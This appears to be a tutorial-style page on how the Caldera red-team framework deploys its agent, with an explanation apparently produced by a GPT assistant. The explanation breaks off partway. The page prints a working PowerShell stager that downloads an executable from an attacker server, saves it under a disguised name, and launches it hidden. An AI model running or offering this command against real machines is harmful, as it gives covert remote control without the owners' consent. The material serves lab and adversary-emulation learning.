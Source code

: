 ## How does caldera work?

- Caldera has to be installed in the attacking machine.
- Caldera creates an agent in the form of an executable and teach us the commands to execute in powershell to deploy this agent in the target machine:

    ```powershell
    Caldera's default agent, written in GoLang. Communicates through the HTTP(S) contact by default.
    $server="http://192.168.2.13:8888";
    $url="$server/file/download";
    $wc=New-Object System.Net.WebClient;
    $wc.Headers.add("platform","windows");
    $wc.Headers.add("file","sandcat.go");
    $data=$wc.DownloadData($url);
    get-process | ? {$_.modules.filename -like "C:\Users\Public\elasticsearch-double-agent.exe"} | stop-process -f;
    rm -force "C:\Users\Public\elasticsearch-double-agent.exe" -ea ignore;
    [io.file]::WriteAllBytes("C:\Users\Public\elasticsearch-double-agent.exe",$data) | Out-Null;
    Start-Process -FilePath C:\Users\Public\elasticsearch-double-agent.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
    ```

- This is the explanation that GPT `Atomic Test Architect` tell us about this command:


    The commands provided are designed to **download and execute CALDERA's default agent (Sandcat)** on the target machine (192.168.1.21). Here’s a step-by-step explanation of what this script does and the type of connection it establishes:

    1. Define the Server and Download URL:

        ```powershell
        $server="http://192.168.2.13:8888";
        $url="$server/file/download";
        ```

        - **Explanation**: These lines set the `$server` variable to `http://192.168.2.13:8888`, the address of the CALDERA server running on the Kali machine (`192.168.2.13`).

        - **Purpose**: `$url` is set to `$server/file/download`, which is the endpoint on the CALDERA server where the target machine will request the Sandcat agent executable.

    2. Initialize WebClient and Set Headers:

        ```powershell
        $wc=New-Object System.Net.WebClient;
        $wc.Headers.add("platform","windows");
        $wc.Headers.add("file","sandcat.go");
        ```

        - **Explanation**: This initializes a WebClient object ($wc) to handle the HTTP request to the server.
        - **Purpose**:
            - Adds HTTP headers to specify the platform (windows) and the requested file (sandcat.go), which is the Sandcat agent in GoLang, compiled for Windows.
        - **Goal**: To inform the server of the desired platform and file format, ensuring it delivers the correct binary for Windows.
